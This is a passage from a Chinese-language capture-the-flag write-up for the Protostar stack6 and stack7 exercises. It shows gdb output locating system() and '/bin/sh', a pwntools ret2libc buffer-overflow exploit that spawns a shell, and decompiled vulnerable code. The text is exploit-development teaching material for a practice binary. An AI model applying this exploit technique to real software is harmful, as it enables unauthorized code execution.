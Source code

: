 ```
0028| 0xffffcf50 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048558 in main ()
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e40940 <system>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f5f02b ("/bin/sh")

```
可以看到 `system()`的地址是`0xf7e40940`
        `/bin/sh` 的地址是`0xf7f5f02b`

```python
from pwn import *

io = process('./stack6')
payload = 'a'*80 + '\x40\x09\xe4\xf7'+ 'bbbb'+ '\x2b\xf0\xf5\xf7'
io.sendline(payload)
io.interactive()
```
```
$ python stack6.py
[+] Starting local process './stack6': pid 5355
[*] Switching to interactive mode
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@    ��aaaaaaaaaaaa@    ��bbbb+���
$ echo i got it!
i got it!
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './stack6' stopped with exit code -11 (SIGSEGV) (pid 5355)
[*] Got EOF while sending in interactive
```
成功。

#### stack7
```
$ binwalk stack7

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
IDA pro定位到关键函数。
```c
char *getpath()
{
  char s; // [sp+Ch] [bp-4Ch]@1
  unsigned int v2; // [sp+4Ch] [bp-Ch]@1
  unsigned int retaddr; // [sp+5Ch] [bp+4h]@1

  printf("input path please: ");
  fflush(_bss_start);
  gets(&s);
  v2 = retaddr;
  if ( (retaddr & 0xB0000000) == 0xB0000000 )
  {
    printf("bzzzt (%p)\n", v2);
    _exit(1);
```